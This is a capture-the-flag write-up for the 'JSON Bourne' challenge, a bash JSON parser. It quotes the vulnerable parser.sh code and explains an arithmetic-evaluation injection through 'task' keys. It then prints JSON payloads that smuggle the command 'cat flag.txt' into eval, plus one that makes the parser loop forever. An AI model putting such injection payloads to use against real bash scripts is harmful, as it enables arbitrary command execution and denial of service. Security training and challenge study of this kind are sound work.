 # JSON Bourne (misc, 200p, 46 solved) [bash script]


After looking carefully at the code and learning the bash scripting syntax, we found in parser.sh:

```
parseString() {
    local input=$1
    local i=$2
    local res=$3
    declare -Ag $res

    makeVar
    eval ${res}'[_type]=$var_name'
    makeKind "STRING" $var_name

    getString "$input" "$i" "$res"

    local task_i
    local result_str="${!res}"
    for (( task_i=0; task_i < ${#result_str}; task_i++ )); do
        if [[ "${result_str:$task_i:5}" = "task " ]]; then
            local suffix="${result_str:$((task_i+5)):$((${#result_str}-task_i-5))}"
            if [[ "$((suffix > 0))" = "1" && "$((suffix <= 8))" = "1" ]]; then
                local color=$var_name
                normalizeNumber "$suffix" $color "var_"
                eval ${res}'[_color]=${color}'
            fi
        fi
    done
}
```
in particular this line:

```
if [[ "$((suffix > 0))" = "1" && "$((suffix <= 8))" = "1" ]]; then
```

after fuzzying around, we noticed that it allows arithmetic assignment, by providing as input this line:

```
{"task 1=12":"as"}
```

Then we used this vulnerability to rewrite  `_var_name_i`  in such a way that some new variables used in evals would be somehow "double referenced".

We ended up with this monstruosity :

```
["task _var_name_i=10","var_11","task _var_name_i=10",{"task _var_name_i=13":"=SHELL","var_10":"b"},"concat",{"ta":["ta","aT","task _var_name_i=10",{"task _var_name_i=13":"};cat flag.txt;{","var_12":"b"},"l00p"]}]
```

Which, after a more accurate analysis by @Zommiommy, could also be written as:

```
{"task _var_name_i=10":"};cat flag.txt;#
```

Surprisingly, changing the value of ` _var_name_i` could also cause the program to loop forever:
```
{"going":["down","task _var_name_i=10",{"the":"rabbit"},"hole"]}
```
